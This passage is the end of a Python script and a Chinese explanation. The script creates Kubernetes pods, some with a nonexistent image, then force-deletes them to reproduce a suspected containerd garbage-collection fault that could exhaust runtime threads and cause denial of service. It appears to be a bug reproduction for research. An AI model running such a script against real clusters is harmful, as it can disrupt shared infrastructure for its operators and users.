 ```python
        pod_name = f"test-gc-pod-{i}"
        # 让一部分Pod使用不存在的镜像，模拟异常状态
        if i % 2 == 0:
            image_name = "nonexist:latest"  # 不存在的镜像
        else:
            image_name = "busybox"

        pod_obj = create_pod_object(name=pod_name, image=image_name)
        try:
            core_v1_api.create_namespaced_pod(namespace=test_namespace, body=pod_obj)
            print(f"[INFO] 创建Pod: {pod_name}")
            pod_names.append(pod_name)
        except Exception as e:
            print(f"[ERROR] 创建Pod失败: {pod_name}, 原因: {str(e)}")

    # 4. 等待一小段时间，让容器处于Pull镜像或创建状态
    time.sleep(10)

    # 5. 对上述Pod进行强制删除操作，可能导致容器在Runtime中处于不一致或未知状态
    for name in pod_names:
        force_kill_pod(core_v1_api, name)

    # 6. 等待删除操作生效
    time.sleep(10)

    # 7. 此时，如果Kubernetes底层垃圾回收存在问题，可能频繁尝试删除这些无法正常删除的容器，
    #    在极端情况下导致 containerd 出现超量线程、资源耗尽，从而触发DoS风险。
    #
    # 由于具体场景依赖环境繁忙程度、Runtime实现逻辑等，脚本中只展示可能的触发过程。
    # 如要在真实环境中观测，需要配合更多负载或重复操作来放大问题。

    print("[INFO] 测试完成，开始清理环境。")

    # 8. 再次确保Pod已删除
    for name in pod_names:
        try:
            core_v1_api.delete_namespaced_pod(name=name, namespace=test_namespace)
        except:
            pass

    print("[INFO] 清理完成，脚本结束。")
```


**解释说明：**

1. 此脚本通过创建多个可能无法正常启动或处于未知状态的Pod，然后强制删除它们，模拟出容器在Runtime（containerd）中滞留、不一致的场景。  
2. 如果底层垃圾回收逻辑存在问题，重复地删除这些容器可能导致Runtime线程数不断增长，进而出现崩溃（DoS）的风险。  
3. 脚本中使用了超时机制（signal.alarm(120)）来避免脚本长时间或死循环运行。  
4. 脚本仅为本地测试与研究所用，不应在生产环境中滥用。如需进一步验证，可在受控环境下配合更多Pod及负载进行测试。

---
